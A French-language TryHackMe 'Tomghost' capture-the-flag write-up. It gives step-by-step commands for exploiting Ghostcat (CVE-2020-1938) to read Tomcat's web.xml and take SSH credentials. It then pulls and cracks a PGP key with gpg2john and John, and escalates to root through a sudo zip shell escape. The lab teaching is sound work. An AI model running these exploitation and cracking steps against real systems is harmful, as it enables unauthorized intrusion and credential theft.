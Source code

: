 # TryHackMe – Tomghost 

> **Objectif :** démontrer pas à pas l’exploitation de la vulnérabilité **Ghostcat** (CVE-2020-1938) sur Apache Tomcat, puis élever les privilèges jusqu’au root en déchiffrant une archive PGP et en abusant d’un binaire SUID.  
> **Notre IP cible** : `10.10.197.181`

---

## 1. Reconnaissance réseau

### 1.1 Scan Nmap

```bash
nmap -p- -sV -A 10.10.197.181
```

| Port | Service | Version             | Intérêt                         |
|------|---------|---------------------|---------------------------------|
| 22   | SSH     | OpenSSH 7.2p2       | Accès distant (à garder en tête)|
| 53   | DNS     | **tcpwrapped**      | Non exploité ici                |
| 8009 | AJP13   | Apache JServ 1.3    | **Vecteur Ghostcat**            |
| 8080 | HTTP    | Apache Tomcat 9.0.30| Interface Web par défaut        |

> Ghostcat s’appuie sur le port **AJP 8009** par défaut ; le scanner confirme que le service est exposé.

---

## 2. Analyse du serveur Tomcat

### 2.1 Page d’accueil

Accéder à : `http://10.10.197.181:8080` – la page d’accueil par défaut d’Apache Tomcat affiche la version **9.0.30**.

### 2.2 Recherche de vulnérabilité

Une recherche rapide « tomcat 9.0.30 ghostcat » renvoie la CVE-2020-1938 et l’article Tenable :  
<https://www.tenable.com/blog/cve-2020-1938-ghostcat-…>

---

## 3. Exploitation Ghostcat

### 3.1 Récupération de l’exploit

```bash
git clone https://github.com/00theway/Ghostcat-CNVD-2020-10487
cd Ghostcat-CNVD-2020-10487
```

### 3.2 Lecture du fichier *web.xml*

```bash
python3 ajpShooter.py http://10.10.197.181 8009 /WEB-INF/web.xml read
```

Sortie pertinente :

```
...
Welcome to GhostCat
skyfuck:***********************
```

> Le couple `skyfuck:<mot_de_passe>` apparaît dans la balise `<description>` : **identifiants SSH** récupérés directement depuis le code XML.

---

## 4. Connexion SSH et premier flag

```bash
ssh skyfuck@10.10.197.181
# mot de passe récupéré plus haut
```

Arborescence :

```
credential.pgp      # archive chiffrée
tryhackme.asc       # clé privée PGP
```

Le flag *user* se trouve dans le home d’un autre utilisateur :

```bash
find / -name user.txt 2>/dev/null
cat /home/merlin/user.txt
```

---

## 5. Escalade : de *skyfuck* à *merlin*

### 5.1 Importer la clé ASC

```bash
gpg --import tryhackme.asc
```

### 5.2 Déchiffrer ? GPG demande une **passphrase inconnue**.

---

## 6. Extraction de la passphrase (côté attaquant)

1. **Exfiltrer** `tryhackme.asc` :

   ```bash
   # cible
   python3 -m http.server 8000
   # attaquant
   wget http://10.10.197.181:8000/tryhackme.asc
   ```

2. **Convertir en hash John** :

   ```bash
   gpg2john tryhackme.asc > mdp
   ```

3. **Craquer la passphrase** (rockyou) :

   ```bash
   john mdp --wordlist=/usr/share/wordlists/rockyou.txt
   ```

   Sortie : `********** (passphrase pour déchiffrer la clé PGP !!)`

---

## 7. Déchiffrement de `credential.pgp`

```bash
gpg --decrypt credential.pgp     # saisir la passphrase trouvée
```

Contenu :

```
merlin:<mot_de_passe_merlin>
```

Changement d’utilisateur :

```bash
su merlin
```

---

## 8. Escalade root via *zip* SUID

### 8.1 Vérifier les droits

```bash
sudo -l
# => (root) NOPASSWD: /usr/bin/zip
```

### 8.2 Exploitation (méthode GTFOBins)

```bash
TF=$(mktemp -u)
sudo zip $TF /etc/hosts -T -TT 'sh #'
sudo rm $TF
```

Une shell root s’ouvre :

```bash
whoami   # root
cat /root/root.txt
```

---

## 9. Récapitulatif des phases

| Phase | Technique | Élément gagné |
|-------|-----------|---------------|
| 1     | Scan Nmap | Découverte AJP 8009 |
| 2     | Ghostcat  | Credentials *skyfuck* |
| 3     | SSH       | Accès utilisateur & fichiers PGP |
| 4     | gpg2john  | Passphrase clé privée |
| 5     | GPG decrypt | Credentials *merlin* |
| 6     | SUID zip  | Root shell & flag |

---

## 10. Points clés à retenir

1. **Ghostcat** → pensez AJP, pas seulement HTTP.  
2. Un couple **.asc + .pgp** ≠ inutile : exploitable via *gpg2john*.  
3. Les **GTFOBins** sont incontournables pour exploiter rapidement un binaire SUID.

---

### Références

- CVE-2020-1938 : <https://www.tenable.com/blog/cve-2020-1938-ghostcat…>  
- Exploit Ghostcat : <https://github.com/00theway/Ghostcat-CNVD-2020-10487>  
- gpg2john : <https://github.com/openwall/john>  
- GTFOBins ZIP : <https://gtfobins.github.io/gtfobins/zip/>

---

*Auteur : Saad Idrissi*
